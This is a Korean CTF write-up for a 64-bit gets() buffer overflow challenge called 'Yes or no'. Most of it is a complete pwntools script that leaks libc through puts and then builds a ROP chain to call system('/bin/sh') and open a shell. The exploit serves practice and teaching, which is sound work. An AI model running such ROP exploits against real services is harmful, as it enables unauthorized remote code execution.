



# Yes or no

64bit 환경에서의 BOF 문제이다.      
<br/>

    
gets 함수 부분에서 BOF 취약점이 발생하며, 올바른 값을 입력해야만 get함수 부분으로 진행할 수 있다.   
<br/>

   
   
올바른 값을 찾기 위해 gdb로 cmp 하기 전에 break를 걸고, eax값을 확인해서 값을 알아낸다.   
<br/>


이후에는 평범한 64bit ROP를 이용하면 된다.   
```
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3009)

e = ELF('./yes_or_no')
libc = ELF('./libc-2.27.so')

gadget = 0x00400883
ret = 0x000000000040056e

system_offset = libc.symbols['system']

puts_plt = e.plt['puts']
puts_got = e.got['puts']

main = e.symbols['main']

p.recvline()
p.sendline('9830400')

payload = ''
payload += 'A'*0x12 + 'B'*8

# leak
payload += p64(gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

# calc address
p.recvline()
p.sendline(payload)

puts_addr = p.recv(6)
puts_addr += '\x00\x00'
puts_addr = u64(puts_addr)

libc_addr = puts_addr - libc.symbols['puts']
system_addr = libc_addr + libc.symbols['system']

binsh = libc_addr + 0x1b3e9a

# exploit
payload2 = ''
payload2 += 'A'*0x12 + 'B'*8
payload2 += p64(gadget)
payload2 += p64(binsh)
payload2 += p64(ret)
payload2 += p64(system_addr)

p.recvuntil('number~!\n')
p.sendline('9830400')

p.recvuntil('Follow me\n')
p.sendline(payload2)

sleep(0.2)
p.interactive()
```
